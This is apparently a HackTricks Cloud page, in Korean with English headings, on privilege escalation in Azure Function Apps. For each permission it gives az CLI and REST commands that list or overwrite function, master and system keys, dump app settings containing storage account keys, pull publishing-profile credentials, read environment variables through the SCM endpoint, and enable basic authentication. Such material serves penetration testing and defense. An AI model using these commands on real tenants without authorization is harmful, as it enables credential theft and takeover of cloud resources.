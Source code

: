 # Az - Functions App Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Function Apps

다음 페이지에서 더 많은 정보를 확인하세요:

{% content-ref url="../az-services/az-function-apps.md" %}
[az-function-apps.md](../az-services/az-function-apps.md)
{% endcontent-ref %}

### Microsoft.Web/sites/host/listkeys/action

이 권한은 지정된 함수의 함수, 마스터 및 시스템 키를 나열할 수 있지만 호스트 키는 나열할 수 없습니다.
```bash
az functionapp keys list --resource-group <res_group> --name <func-name>
```
{% endcode %}

### Microsoft.Web/sites/functions/listKeys/action

이 권한은 지정된 함수의 호스트 키를 가져올 수 있습니다: 

{% code overflow="wrap" %}
```bash
az rest --method POST --uri "https://management.azure.com/subscriptions/<subsription-id>/resourceGroups/<resource-group>/providers/Microsoft.Web/sites/<func-name>/functions/<func-endpoint-name>/listKeys?api-version=2022-03-01"
```
{% endcode %}

### Microsoft.Web/sites/host/functionKeys/write

이 권한은 지정된 함수에 대한 함수 키를 생성/업데이트할 수 있습니다:

{% code overflow="wrap" %}
```bash
az functionapp keys set --resource-group <res_group> --key-name <key-name> --key-type functionKeys --name <func-key> --key-value q_8ILAoJaSp_wxpyHzGm4RVMPDKnjM_vpEb7z123yRvjAzFuo6wkIQ==
```
{% endcode %}

### Microsoft.Web/sites/host/masterKey/write

이 권한은 지정된 함수에 대한 마스터 키를 생성/업데이트할 수 있게 해줍니다:

{% code overflow="wrap" %}
```bash
az functionapp keys set --resource-group <res_group> --key-name <key-name> --key-type masterKey --name <func-key> --key-value q_8ILAoJaSp_wxpyHzGm4RVMPDKnjM_vpEb7z123yRvjAzFuo6wkIQ==
```
{% endcode %}

### Microsoft.Web/sites/host/systemKeys/write

이 권한은 지정된 함수에 시스템 함수 키를 생성/업데이트할 수 있습니다:

{% code overflow="wrap" %}
```bash
az functionapp keys set --resource-group <res_group> --key-name <key-name> --key-type masterKey --name <func-key> --key-value q_8ILAoJaSp_wxpyHzGm4RVMPDKnjM_vpEb7z123yRvjAzFuo6wkIQ==
```
{% endcode %}

### Microsoft.Web/sites/config/list/action

이 권한은 함수의 환경 변수를 가져올 수 있게 해줍니다. 이러한 변수 안에는 기본 env 변수 **`AzureWebJobsStorage`** 또는 **`WEBSITE_CONTENTAZUREFILECONNECTIONSTRING`**을 찾을 수 있을 가능성이 있으며, 이는 실제로 **FULL 권한으로 함수의 blob 저장소에 접근할 수 있는 계정 키를 포함하고 있습니다**.

{% code overflow="wrap" %}
```bash
az functionapp config appsettings list --name <func-name> --resource-group <res-group>
```
{% endcode %}



### `Microsoft.Web/sites/publishxml/action, (Microsoft.Web/sites/basicPublishingCredentialsPolicies/write)`

이 권한은 기본적으로 **기본 인증 자격 증명**을 포함하는 모든 게시 프로필을 나열할 수 있게 해줍니다:
```bash
# Gte creds
az functionapp deployment list-publishing-profiles \
--name basicauthenabled \
--resource-group Resource_Group_1 \
--output json
```
* **Method SCM**

그런 다음, 이러한 **기본 인증 자격 증명으로 함수 앱의 SCM URL**에 접근하여 env 변수의 값을 가져올 수 있습니다:
```bash
# Get env variables values
curl -u '<username>:<password>' \
https://<app-name>.scm.azurewebsites.net/api/settings -v
```
_다음에 유의하세요: **SCM 사용자 이름**은 일반적으로 문자 "$" 다음에 앱 이름이 오므로: `$<app-name>`입니다._

그리고 이러한 환경 변수는 함수 앱의 데이터를 저장하는 스토리지 계정의 **AccountKey**를 포함하고 있어 해당 스토리지 계정을 제어할 수 있습니다.

자격 증명이 **REDACTED**로 표시되면, 이는 **SCM 기본 인증 옵션을 활성화해야 하기 때문**이며, 이를 위해 두 번째 권한(`Microsoft.Web/sites/basicPublishingCredentialsPolicies/write`)이 필요합니다:

{% code overflow="wrap" %}
```bash
# Enable basic authentication for SCM
az rest --method PUT \
--uri "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/sites/<app-name>/basicPublishingCredentialsPolicies/scm?api-version=2022-03-01" \
--body '{
"properties": {
"allow": true
}
}'

# Enable basic authentication for FTP
az rest --method PUT \
--uri "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/sites/<app-name>/basicPublishingCredentialsPolicies/ftp?api-version=2022-03-01" \
--body '{
"properties": {
"allow": true
}
}'
```
{% endcode %}



{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
